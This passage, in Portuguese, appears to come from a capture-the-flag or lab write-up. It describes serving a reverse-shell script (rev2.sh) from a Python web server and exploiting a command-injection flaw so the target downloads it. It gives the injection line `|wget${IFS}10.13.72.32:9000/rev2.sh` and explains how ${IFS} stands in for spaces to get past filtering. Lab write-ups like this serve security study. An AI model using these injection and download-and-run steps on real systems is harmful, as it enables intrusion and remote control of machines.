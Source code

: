 Então sabendo dessas informações foi a hora de montar a payload.

##### Criação e execução da payload

**Primeira Etapa**: Anteriormente foi criado o `rev.sh` e agora foi criado o `rev2.sh` a payload é a mesma (praticamente), a única alteração é o número da porta que escutará.

**Segunda Etapa**: Foi iniciado um servidor em Python e exploramos a aplicação para baixar o arquivo malicioso

`|wget${IFS}10.13.72.32:9000/rev2.sh`

![](attachment/50fb7ed1a75934e11a55d3b79fedf96e.png)

> [!O que é "${IFS}]
> Em scripts Bash, `"${IFS}"` refere-se à variável de ambiente `IFS`, que significa "Internal Field Separator". Essa variável define os caracteres que são utilizados para separar palavras em um texto, em um script Bash. O valor padrão de `IFS` é um espaço, um tab e uma nova linha.

**Terceira etapa**:

Agora é preciso apenas executar o arquivo `.sh`

![](attachment/b73df1fc4d218b9b9c1070fa3a7fbbba.png)
